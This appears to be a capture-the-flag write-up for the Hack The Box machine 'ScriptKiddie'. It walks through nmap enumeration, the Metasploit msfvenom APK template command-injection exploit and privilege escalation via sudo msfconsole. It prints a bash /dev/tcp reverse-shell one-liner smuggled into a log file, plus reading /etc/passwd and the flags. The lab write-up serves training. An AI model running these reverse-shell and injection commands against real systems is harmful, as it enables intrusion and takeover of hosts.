 ![](Images/EtZVJweXIAgrjpt.jpg)
# About

What I learn from this machine ?
* Enumeration
* Malicious payload (template bin)
* Reverse Shell
* Privilege escalation

## Enumeration
```text
# Nmap 7.91 scan initiated Fri Jun  4 15:33:24 2021 as: nmap -sV -sC -oN nmap/scan.txt 10.10.10.226
Nmap scan report for 10.10.10.226
Host is up (0.15s latency).
Not shown: 998 closed ports
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.1 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 3c:65:6b:c2:df:b9:9d:62:74:27:a7:b8:a9:d3:25:2c (RSA)
|   256 b9:a1:78:5d:3c:1b:25:e0:3c:ef:67:8d:71:d3:a3:ec (ECDSA)
|_  256 8b:cf:41:82:c6:ac:ef:91:80:37:7c:c9:45:11:e8:43 (ED25519)
5000/tcp open  http    Werkzeug httpd 0.16.1 (Python 3.8.5)
|_http-title: k1d'5 h4ck3r t00l5
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Fri Jun  4 15:33:52 2021 -- 1 IP address (1 host up) scanned in 27.68 seconds
```
Ports 22 and 5000 are open, and we can see that werkzeug is running, which is a WSGI toolkit. When we hope into the web site we can see website with bunch of tools.

![](Images/web.png)

Here I test few things, I do some dirbuster and nothing interesting found. I ran some nmap  with web tool it give back a same result Nothing interesting things happen in nmap section.

After that time waste I hope over to payload section and we have lot to try for exploits like Command Injection, RFI, LFI, File Upload Vulnerability etc.. 

When I saw this **Venom it up -gen rev tcp meterpreter bins** . It might have a exploit so I search for it, Finally I figure it's a **Rapid 7 APK Template Command Injection**

![](Images/msfvenom.png)

Link to documentation :
https://www.rapid7.com/db/modules/exploit/unix/fileformat/metasploit_msfvenom_apk_template_cmd_injection/

```bash
┌─[visith@parrot]─[~/CTF/htb/Script_kiddie]
└──╼ $msfconsole
 msf6 > use exploit/unix/fileformat/metasploit_msfvenom_apk_template_cmd_injection
[*] No payload configured, defaulting to cmd/unix/reverse_netcat
msf6 exploit(unix/fileformat/metasploit_msfvenom_apk_template_cmd_injection) > set LHOST 10.10.14.8
LHOST => 10.10.14.8
msf6 exploit(unix/fileformat/metasploit_msfvenom_apk_template_cmd_injection) > set LPORT 4444
LPORT => 4444
msf6 exploit(unix/fileformat/metasploit_msfvenom_apk_template_cmd_injection) > set RHOST 10.10.10.226
RHOST => 10.10.10.226
msf6 exploit(unix/fileformat/metasploit_msfvenom_apk_template_cmd_injection) > set RPORT 5000
RPORT => 5000
msf6 exploit(unix/fileformat/metasploit_msfvenom_apk_template_cmd_injection) > run

[+] msf.apk stored at /home/visith/.msf4/local/msf.apk
msf6 exploit(unix/fileformat/metasploit_msfvenom_apk_template_cmd_injection) > 
```
Now we got the **apk** file . setup a listner and upload into our payload tab. In options put it to android.

![](Images/payload%20inject.png)

After we generate the payload. We got the shell.
```bash
─[visith@parrot]─[~/CTF/htb/Script_kiddie]
└──╼ $nc -lnvp 4444
listening on [any] 4444 ...
connect to [10.10.14.8] from (UNKNOWN) [10.10.10.226] 59726
whoami
kid
/usr/bin/script -qc /bin/bash /dev/null
kid@scriptkiddie:~/html$ ls
ls
__pycache__  app.py  static  templates
kid@scriptkiddie:~/html$ 
kid@scriptkiddie:~/html$ pwd
pwd
/home/kid/html
kid@scriptkiddie:~/html$ cd ..
cd ..
kid@scriptkiddie:~$ ls
ls
html  logs  snap  user.txt
kid@scriptkiddie:~$ cat user.txt
cat user.txt
71e094a16b1985dlk7375f1f8b6dd356
```
If you check into the /etc/passwd we can see another user names **pwn**.

```bash
kid@scriptkiddie:~$ cat /etc/passwd | grep -v 'false\|nologin'
cat /etc/passwd | grep -v 'false\|nologin'
root:x:0:0:root:/root:/bin/bash
sync:x:4:65534:sync:/bin:/bin/sync
kid:x:1000:1000:kid:/home/kid:/bin/bash
pwn:x:1001:1001::/home/pwn:/bin/bash
```
For more information I enumerate the machine with **linpeas.sh** . I found this on output.

![](Images/linpeas.png)
I think **pwn** user having higher privileges. So I tried to search more about **pwn**.

![](Images/linpeas1.png)

I was confused wtf was that scanlosers.sh. So I navigated to that directory and take a look into it. Guess what we found our way into pwn user.

![](Images/pwn%20scanloser.png)


saclosers.sh encounter with file named as hackers. What caught my attention about the file was the group owner assigned to file **pwn**. 

```bash
kid@scriptkiddie:~$ cd logs
cd logs
kid@scriptkiddie:~/logs$ ls
ls
hackers
kid@scriptkiddie:~/logs$ ls -la
ls -la
total 8
drwxrwxrwx  2 kid kid 4096 Jun  5 02:55 .
drwxr-xr-x 11 kid kid 4096 Feb  3 11:49 ..
-rw-rw-r--  1 kid pwn    0 Jun  5 02:55 hackers
kid@scriptkiddie:~/logs$ 
```
Now we need to setup rev shell. I use everything to make that rev shell and all the time it failed to me. It make me so frustrated. After sometime this was the correct one. 

My revshell was this :
```bash
echo "  ;/bin/bash -c 'bash -i >& /dev/tcp/10.10.14.8/4242 0>&1' #" >> hackers
```
After we execute it we got a callback.

```bash
┌─[visith@parrot]─[~/CTF/htb]
└──╼ $nc -lnvp 4242
listening on [any] 4242 ...
connect to [10.10.14.8] from (UNKNOWN) [10.10.10.226] 35956
bash: cannot set terminal process group (886): Inappropriate ioctl for device
bash: no job control in this shell
pwn@scriptkiddie:~$ ls
ls
recon
scanlosers.sh
```
Let's see are we get the higher privilege.

```bash
pwn@scriptkiddie:~$ sudo -l
sudo -l
Matching Defaults entries for pwn on scriptkiddie:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User pwn may run the following commands on scriptkiddie:
    (root) NOPASSWD: /opt/metasploit-framework-6.0.9/msfconsole
```
We didn't but we got higher privilege as a msfconsole :) 

```bash
pwn@scriptkiddie:~$ sudo msfconsole
sudo msfconsole
                                                  
IIIIII    dTb.dTb        _.---._
  II     4'  v  'B   .'"".'/|\`.""'.
  II     6.     .P  :  .' / | \ `.  :
  II     'T;. .;P'  '.'  /  |  \  `.'
  II      'T; ;P'    `. /   |   \ .'
IIIIII     'YvP'       `-.__|__.-'

I love shells --egypt


       =[ metasploit v6.0.9-dev                           ]
+ -- --=[ 2069 exploits - 1122 auxiliary - 352 post       ]
+ -- --=[ 592 payloads - 45 encoders - 10 nops            ]
+ -- --=[ 7 evasion                                       ]

Metasploit tip: After running db_nmap, be sure to check out the result of hosts and services

msf6 > cd /root 
msf6 > ls
[*] exec: ls
root.txt
snap
msf6 > cat root.txt
[*] exec: cat root.txt

a84a8ee04cb36a3981be581a85672db4
```
Thx for reading !! 
Happy hacking 
